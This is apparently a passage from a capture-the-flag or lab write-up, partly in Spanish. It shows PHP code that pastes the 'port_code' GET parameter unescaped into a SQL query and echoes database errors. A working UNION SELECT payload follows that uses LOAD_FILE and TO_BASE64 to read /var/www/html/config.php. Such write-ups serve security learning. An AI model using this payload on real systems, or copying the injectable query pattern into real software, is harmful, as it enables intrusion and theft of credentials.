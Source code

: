 ```
if (isset($_GET["port_code"])) {
$q = "Select * from ports where code like '%".$_GET["port_code"]."%'";

$result = mysqli_query($conn,$q);
if (!$result)
{
		die("</table></div><p style='font-size: 15px'>".mysqli_error($conn)."</p>");
}
while($row = mysqli_fetch_array($result))
  {
  echo "<tr><td style=\"width:400px\" colspan=3>".$row[1]."</td><td style=\"width:400px\" colspan=3>".$row[2]."</td><td style=\"width:450px\" colspan=3>".$row[3]."</tr>";
  }
}
?>
</tbody>
</table>
	</div>

	  
	  
	  
	</div> <!-- /container -->
  
</body>
</html>
<style>
</style>
```

Vamos a leer **/var/www/html/config.php** con `LOAD_FILE()` vía UNION y, para que no se renderice HTML/PHP raro, lo envolvemos en **Base64**.

```
' UNION SELECT 1, TO_BASE64(LOAD_FILE('/var/www/html/config.php')), 3, 4-- -
```
